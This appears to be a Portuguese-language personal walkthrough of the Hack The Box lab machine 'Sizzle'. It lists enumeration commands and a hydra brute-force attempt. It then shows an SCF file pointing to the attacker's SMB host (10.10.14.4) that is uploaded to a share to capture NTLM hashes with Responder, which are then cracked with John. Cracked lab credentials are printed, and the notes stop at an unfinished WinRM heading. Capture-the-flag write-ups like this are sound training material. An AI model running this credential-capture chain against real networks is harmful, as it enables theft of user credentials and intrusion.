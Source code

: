 Sizzle
========================

# Enumeration

EM ATUALIZACAO... INFOS IMPORTANTES

Dominio: HTB.LOCAL

Users: 
amanda
amanda_adm
bill
bob
chris
henry
joe
jose
lkys37en
morgan
mrb3n

Credenciais obtidas:

usuario: amanda
senha: Ashare1972


    sudo nmap_enum sizzle.htb | tee nmap_output.txt

Descobri que ele aceita conexao FTP anonymous:

    ftp -a sizzle.htb
    
    dir
    mkdir teste

![qownnotes-media-SvJigz](../../../media/qownnotes-media-SvJigz.png)

Com esses comandos deu pra notar que ele nao aceita escrita no diretorio FTP. Partir para o proximo teste:

    enum4linux -a 10.10.10.103 | tee enum4linux.txt
    
![qownnotes-media-YBzfjT](../../../media/qownnotes-media-YBzfjT.png)

USEFUL INFORMATION:

Nome do dominio: *HTB.LOCAL*

## Web enumeration

    gobuster dir -u http://sizzle.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    gobuster dir -u https://sizzle.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-EuymVq](../../../media/qownnotes-media-EuymVq.png)

    
    hydra -l admin -P rockyou.txt 10.10.10.103 -s 80 http-get /certsrv
 
 
## RPC enumeration

    rpcclient -U "" -N 10.10.10.103
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    
![qownnotes-media-wFSYbm](../../../media/qownnotes-media-wFSYbm.png)

## SMB Enumeration (exploitation step)

    smbclient -L 10.10.10.103 -U '' -N
    
    smbclient -L //10.10.10.103
    
Aqui finalmente tivemos algo interessante:

![qownnotes-media-MmNRCh](../../../media/qownnotes-media-MmNRCh.png)

Daqui em diante a gente conseguiu prosseguir com a exploracao e obter o primeiro hash de senha de usuario... [exploitation](Sizzle.md#Exploitation)

## LDAP enumeration

    nmap -Pn -sV -p 389 --script="banner,(ldap* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_port_ldap_nmap.txt" 10.10.10.103

## DNS Enumeration

Aqui teve uma acao importante que tomei que foi colocando uma entrada no arquivo resolv.conf

    echo "nameserver 10.10.10.103" >> /etc/resolv.conf

    host -t axfr 10.10.10.103 10.10.10.103
    
    host -t axfr 10.10.10.103 HTB.LOCAL
    
    host -t axfr HTB.LOCAL 10.10.10.103
    
    host -t axfr HTB.LOCAL HTB.LOCAL
    
    dnsenum htb.local
    
    nslookup 10.10.10.103 10.10.10.103
    
![qownnotes-media-WSJgnE](../../../media/qownnotes-media-WSJgnE.png)

Nenhum desses deu sucesso

## UDP ports enumeration

    sudo nmap -sU -p 53,161,111,137,139,2049 -Pn 10.10.10.103
  
 
 ![qownnotes-media-bUGHpu](../../../media/qownnotes-media-bUGHpu.png)


## All ports enumeration

    sudo nmap -T5 -Pn -p- 10.10.10.103

# Exploitation  

Geramos um arquivo chamado @exploit.scf ... Esse conteudo pode ser visto em:
<https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/>

![qownnotes-media-XPlcXE](../../../media/qownnotes-media-XPlcXE.png)

    └─$ cat @exploit.scf 
    [Shell]
    Command=2
    IconFile=\\10.10.14.4\smb\uwu.ico
    [Taskbar]
    Command=ToggleDesktop

Subimos o arquivo no servidor alvo:

    smbclient //10.10.10.103/'Departament Shares'
    <Enter> (sem senha)
    cd Users/Public
    put @exploit.scf
    
![qownnotes-media-bonvEI](../../../media/qownnotes-media-bonvEI.png)


Depois disso bastou a gente iniciar o responder para escutar na nossa interface tun0:

    sudo responder -I tun0
    
![qownnotes-media-LHSxCq](../../../media/qownnotes-media-LHSxCq.png)

Com isso, basta copiar esse conteudo e salvar em um arquivo TXT para quebrar com o john the ripper:

    john --wordlist=/usr/share/wordlists/rockyou.txt hashe.txt
    
![qownnotes-media-JOYZgT](../../../media/qownnotes-media-JOYZgT.png)

Credenciais obtidass:

usuario: amanda
senha: Ashare1972

![scribble](../../../media/Teste2.png)

Via certificado, como se autenticar com WINRM


